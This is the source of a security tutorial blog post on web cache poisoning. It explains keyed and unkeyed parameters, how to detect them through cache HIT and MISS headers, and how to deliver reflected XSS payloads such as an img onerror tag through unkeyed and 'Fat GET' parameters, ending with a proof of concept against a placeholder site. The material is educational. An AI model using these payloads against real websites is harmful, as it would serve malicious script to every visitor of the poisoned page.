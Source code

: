 ```yaml
---
title: "Introduction to Cache Poisoning Attacks"
date: 2025-02-19
draft: false
description: "Introduction into Cache Poisoning Attacks"
---
```

<link rel="stylesheet" href="https://cdnjs.cloudflare.com/ajax/libs/font-awesome/6.5.1/css/all.min.css">


## <i class="fa-solid fa-worm text-primary-400"></i> Terminology

### Keyed Parameters
<span class="text-primary-400">Keyed parameters</span> are parameters that the cache system considers when storing and retrieving cached content. This means that <span class="text-primary-400">variations in these parameters will result in different cached entries</span>.

For example, if the URL has parameters such as `?user=123` and the cache is <span class="text-primary-400 font-bold">keyed</span> on this parameter, the cache will <span class="text-primary-400">store and serve different content</span>  (<span class="text-primary-400 font-bold">cache miss</span>) for `?user=123` and `?user=456`.

### Unkeyed Parameters
<span class="text-primary-400">Unkeyed parameters</span> are parameters that the cache system ignores when storing and retrieving cached content. This means that <span class="text-primary-400">variations in these parameters will not result in different cached entries</span>. The cache will store only one version of the content (<span class="text-primary-400 font-bold">cache hit</span>), regardless of the variations in these parameters.

## <i class="fa-solid fa-magnifying-glass text-primary-400"></i> Identifying Unkeyed Parameters
The first step is to <span class="text-primary-400">identify unkeyed parameters</span>, since keyed parameters need to be the same when the victim accesses the resource.

### Example
Assume we open `example.com` on `/page` with the following parameters:

```HTTP
GET /page?user=admin&tracking=abc HTTP/1.1
Host: example.com
```

Since `example.com` uses caching and we are visiting the page for the first time, we will see a cache `MISS`:

{{< highlight HTTP "linenos=false,hl_lines=4" >}}
HTTP/1.1 200 OK
Content-Type: text/html
Content-Length: 456
X-Cache: MISS

<html>
  <head>
    <title>Welcome</title>
  </head>

  <body>
    <p>Welcome, admin!</p>
  </body>
</html>
{{< /highlight >}}

Now we <span class="text-primary-400">alter each parameter and check weather we get a cache miss or hit</span>. A cache `MISS` indicates us that this parameter is <span class="text-primary-400">keyed</span>, since the server loaded a new version of the website.

```HTTP
GET /page?user=guest&tracking=abc HTTP/1.1
Host: example.com
```

{{< highlight HTTP "linenos=false,hl_lines=4 12" >}}
HTTP/1.1 200 OK
Content-Type: text/html
Content-Length: 456
X-Cache: MISS

<html>
  <head>
    <title>Welcome</title>
  </head>

  <body>
    <p>Welcome, guest!</p>
  </body>
</html>
{{< /highlight >}}

Now that we identified the <span class="text-primary-400">user parameter to be keyed</span>, let’s continue and check the tracking parameter. Before we change the tracking parameter, lets resent our initial request where we got a cache `MISS`, to verify that the sytem now cached it.

```HTTP
GET /page?user=admin&tracking=abc HTTP/1.1
Host: example.com
```

{{< highlight HTTP "linenos=false,hl_lines=4 12" >}}
HTTP/1.1 200 OK
Content-Type: text/html
Content-Length: 456
X-Cache: HIT

<html>
  <head>
    <title>Welcome</title>
  </head>

  <body>
    <p>Welcome, admin!</p>
  </body>
</html>
{{< /highlight >}}

Great. Now, let's alter the value of the tracking parameter to see whether we get a cache `MISS`, indicating a keyed parameter, or a `HIT` again, indicating an unkeyed parameter.

```HTTP
GET /page?user=admin&tracking=some-other-value HTTP/1.1
Host: example.com
```

{{< highlight HTTP "linenos=false,hl_lines=4 12" >}}
HTTP/1.1 200 OK
Content-Type: text/html
Content-Length: 456
X-Cache: HIT

<html>
  <head>
    <title>Welcome</title>
  </head>

  <body>
    <p>Welcome, admin!</p>
  </body>
</html>
{{< /highlight >}}

We can observe the tracking parameter must be a <span class="text-primary-400">unkeyed value</span>, since the cache always returns HIT, even though the value of the parameter was changed.

> The same thing also sometimes applies to header values in the HTTP requests.

## <i class="fa-solid fa-bullseye text-primary-400"></i> Exploitation
One of the <span class="text-primary-400">most common ways to exploit cache poisoning is through XSS</span>, though there are other attacks like DoS and unkeyed cookies. To exploit a XSS you have to <span class="text-primary-400">find an injection point using an unkeyed parameter</span>. The XSS will then be severed to all other users loading that cached version.

### Example
Imagine we have an injection via the tracking parameter into a meta tag like this:

```HTTP
GET /page?user=admin&tracking=https://mytrack.com HTTP/1.1
```

```HTML
...
<meta http-equiv="refresh" content="https://mytrack.com" />
...
```

As before, when sending the initial request to the server, we will receive a cache MISS. So let us inject a simple XSS payload via the unkeyed tracking parameter `"><img/src/onerror=print()>`.

{{< highlight HTML "linenos=false,hl_lines=3 8" >}}
Content-Type: text/html
Content-Length: 456
X-Cache: MISS

<html>
  <head>
    <title>Welcome</title>
    <meta http-equiv="refresh" content="https://"><img/src/onerror=print()> />
  </head>

  <body>
    <p>Welcome, admin!</p>
  </body>
</html>
{{< /highlight >}}

Since <span class="text-primary-400">tracking is an unkeyed parameter</span>, anybody who visits the page `/page?user=admin` will be a victim of the XSS attack.


## <i class="fa-solid fa-user-ninja text-primary-400"></i> Advanced Techniques
There are multiple advanced things we can try to get and escalate a cache poisoning attack. However for now let us focus one just one of those, a <span class="text-primary-400">"Fat GET"</span>.

### Fat GET
A "Fat GET" request, is when <span class="text-primary-400">we use GET parameters in the post body, while still using the GET verb</span>. If a server is misconfigured it might parse the parameters from the body. With this you can try to create a discrepancy between the webserver and the cache. <span class="text-primary-400">With this we can also use keyed parameters, since they are no longer directly present in the URL</span>. We can then go back and perform an XSS attack the same way we did before.

{{< highlight HTTP "linenos=false,hl_lines=4" >}}
GET /page?user=admin&tracking=abc HTTP/1.1
Host: example.com

user=guest
{{< /highlight >}}

{{< highlight HTML "linenos=false,hl_lines=11" >}}
Content-Type: text/html
Content-Length: 456
X-Cache: MISS

<html>
  <head>
    <title>Welcome</title>
  </head>

  <body>
    <p>Welcome, guest!</p>
  </body>
</html>
{{< /highlight >}}

{{< highlight HTTP "linenos=false,hl_lines=4" >}}

GET /page?user=admin&tracking=abc HTTP/1.1
Host: example.com

user=</p><img/src/onerror=print()><p>
{{< /highlight >}}

{{< highlight HTML "linenos=false,hl_lines=11" >}}
Content-Type: text/html
Content-Length: 456
X-Cache: MISS

<html>
  <head>
    <title>Welcome</title>
  </head>

  <body>
    <p>Welcome, </p><img/src/onerror=print()><p>!</p>
  </body>
</html>
{{< /highlight >}}

Again, if a victim now opens `example.com/page?user=admin` the XSS will be loaded from the cache.

## <i class="fa-solid fa-book text-primary-400"></i> A Real Life PoC
```HTTP
GET /?cb=100&"><image/src/onerror=print()> HTTP/2
Host: target-website.com
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/122.0.6261.112 Safari/537.36

HTTP/2 200 OK
CACHE: HIT
```

```HTML
...
<meta property="og:url" content="https://target-website.com/?cb=100&"><image/src/onerror=print()>">
...
```

In this example, an image tag with an `onerror` event is injected into the URL parameter. When the server processes this request, the parameter is reflected in the HTML response and cached. Consequently, subsequent users requesting the cached page will execute the malicious JavaScript.